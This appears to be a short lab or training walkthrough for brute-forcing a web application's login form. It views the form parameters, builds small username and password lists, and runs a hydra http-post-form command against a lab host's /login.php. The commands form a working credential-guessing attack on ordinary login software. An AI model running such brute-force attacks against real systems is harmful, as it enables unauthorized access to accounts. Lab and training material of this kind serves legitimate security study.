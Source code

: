 - Open the `http://192.210.201.3/login.php` page, view source code and check the parameters passed in the login form.

![](1-webapp-httpassets/image-20230505005152468.png)

- Prepare a usernames and a passwords list

```bash
echo -e "admin\nbee\nuser1\nuser2" > users
cat /root/Desktop/wordlists/100-common-passwords.txt > pws
echo "bug" >> pws

```

- Use **`hydra`** to retrieve the credentials

```bash
hydra -L users -P pws 192.210.201.3 http-post-form "/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!"
```
